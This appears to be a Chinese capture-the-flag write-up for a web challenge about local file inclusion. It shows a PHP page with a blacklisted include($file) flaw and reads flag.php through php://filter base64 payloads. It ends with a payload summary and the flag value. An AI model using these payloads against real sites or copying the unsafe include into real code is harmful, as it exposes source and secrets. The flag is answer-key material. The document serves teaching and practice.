

# [极客大挑战 2019]Secret File

## 题目来源

[极客大挑战 2019]Secret File

## 题目方向 + 知识点

Web 文件包含、源码泄露、`php://filter` 读取源码、伪协议利用、黑名单过滤分析。

## 解题思路

这题打开首页之后，页面上只有一句“你想知道蒋璐源的秘密么？”，下面还有一句“想要的话可以给你，去找吧！把一切都放在那里了！”。这种页面一般不会把真正入口直接摆在明面上，所以我先把页面里能点的地方都点了一遍。

首页底部有一个颜色几乎融进背景里的链接，文字是 `Oh! You found me`，点进去会跳到 `Archive_room.php`。到了这个页面之后，中间又有一个很显眼的按钮，写着 `SECRET`，链接指向 `action.php`。我这时候没有直接顺着跳转后的页面看，而是先去抓 `action.php` 的原始响应，因为这种中间跳转页很容易藏提示。

访问 `action.php` 时，服务器返回的是一个 302 跳转，跳到 `end.php`，但它的响应体里藏着一段 HTML 注释：这里需要bp抓下



也就是说，真正的关键入口其实是 `secr3t.php`。我接着直接访问了它。

打开 `secr3t.php` 后，页面把自己的源码高亮出来了，核心逻辑如下：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

到这里题目的结构已经非常清楚了：

1. 存在一个 `include($file)` 文件包含点。  
2. 过滤了几类关键内容：`../`、`tp`、`input`、`data`。  
3. 注释里直接告诉我：flag 放在 `flag.php`。  

最先想到的自然是直接访问：

```text
/secr3t.php?file=flag.php
```

我实际试了一下，确实能把 `flag.php` 包含进来，但页面里只出现了一句“我就在这里”，看不到 flag。原因也很容易理解：这里用的是 `include`，所以 `flag.php` 是被当 PHP 文件执行的，而不是当源码文本读出来的。如果 `flag.php` 里面只是：

```php
$flag = 'CTF2{...}';
```

那变量赋值本身不会自动显示，所以直接包含是拿不到 flag 的。

既然直接包含不行，下一步就得想办法把 `flag.php` 的**源码**读出来，而不是执行它。这里最自然的思路就是 `php://filter`。它的优势在于：可以先对文件内容做编码，再把编码结果输出，这样就不会按原本的 PHP 脚本逻辑执行了。

于是我先试了最经典的一条：

```text
/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

这条 payload 可以成功回显一长串 Base64 字符串。接着我又试了一条等价写法：

```text
/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

同样也能成功拿到 Base64 回显。把这串内容解码之后，就得到了 `flag.php` 的真实源码，关键部分如下：

```php
<?php
    echo "我就在这里";
    $flag = 'CTF2{50f0db29-2fa9-4db7-8c4f-81f27511b3d3}';
    $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
?>
```

这样 flag 就直接出来了。

### 不带过滤器的 `php://filter`

```text
/secr3t.php?file=php://filter/resource=flag.php
```

或者有些人会写成：

```text
/secr3t.php?file=php://filter//resource=flag.php
```

这类本质上都没有指定有效的读取转换，所以最后效果和直接 `include(flag.php)` 差不多，还是执行文件，而不是把源码转出来，因此也拿不到 `$flag`。

###  `string.rot13`

```text
/secr3t.php?file=php://filter/read=string.rot13/resource=flag.php
```

这条我也单独实测了，结果在这题里并没有成功打通。最终页面只剩下 `secr3t.php` 自己的源码高亮，没有得到 `flag.php` 的有效输出。结合源码里的：

```php
error_reporting(0);
```

可以推测是当前环境下这个过滤器没有正常生效，但错误被隐藏掉了，所以表面看起来像“什么都没发生”。

### 4. `php://input`

```text
/secr3t.php?file=php://input
```

这条不行很直接，因为源码里明确过滤了：

```php
stristr($file,"input")
```

所以访问之后只会得到：

```text
Oh no!
```

### 5. `data://`

```text
/secr3t.php?file=data://text/plain,hello
```

同理，这条也被：

```php
stristr($file,"data")
```

直接拦掉了，也只会回显：

```text
Oh no!
```

## 常用 Payload 汇总

### 最终可用

```text
/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

```text
/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### 能访问但拿不到 flag

```text
/secr3t.php?file=flag.php
```

```text
/secr3t.php?file=php://filter/resource=flag.php
```

### 被过滤拦截

```text
/secr3t.php?file=php://input
```

```text
/secr3t.php?file=data://text/plain,hello
```

```text
/secr3t.php?file=../flag.php
```

### 思路上可试但本题未成功

```text
/secr3t.php?file=php://filter/read=string.rot13/resource=flag.php
```

## Flag

`CTF2{50f0db29-2fa9-4db7-8c4f-81f27511b3d3}`